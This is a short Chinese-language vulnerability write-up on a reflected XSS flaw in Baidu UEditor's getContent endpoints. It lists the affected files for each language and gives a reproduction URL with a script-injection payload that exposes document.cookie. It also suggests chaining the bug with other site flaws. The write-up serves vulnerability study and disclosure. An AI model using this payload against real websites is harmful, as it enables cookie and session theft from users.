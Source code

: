 百度ueditor编辑器 xss漏洞
=========================

一、漏洞简介
------------

产品官网下载地址：

<https://ueditor.baidu.com/website/download.html#mini>

涉及版本：php , asp, jsp, net

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

存在漏洞的文件：

    /php/getContent.php
    /asp/getContent.asp
    /jsp/getContent.jsp
    /net/getContent.ashx

#### /php/getContent.php

![](./.resource/百度ueditor编辑器xss漏洞/media/rId27.png)

入进行了过滤，但是在14行输出时却使用了htmlspecialchars\_decode，造成XSS漏洞。

#### /asp/getContent.asp

![](./.resource/百度ueditor编辑器xss漏洞/media/rId29.png)

获取myEditor参数无过滤，直接输出。

#### /jsp/getContent.jsp

![](./.resource/百度ueditor编辑器xss漏洞/media/rId31.png)

获取myEditor参数无过滤，直接输出。

#### /net/getContent.ashx

![](./.resource/百度ueditor编辑器xss漏洞/media/rId33.png)

获取myEditor参数无过滤，直接输出。

### 漏洞复现

php版本测试，其他版本一样。

![](./.resource/百度ueditor编辑器xss漏洞/media/rId35.png)

url:

    http://0-sec.org/php/getcontent.php

payload:

    myEditor=<script>alert(document.cookie)</script>
    // myEditor中的’ E ’必须大写，小写无效。

由于只是个反弹XSS，单独这个漏洞影响小。若能结合使用该编辑器的网站的其他漏洞使用，则可能产生不错的效果。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91381846>
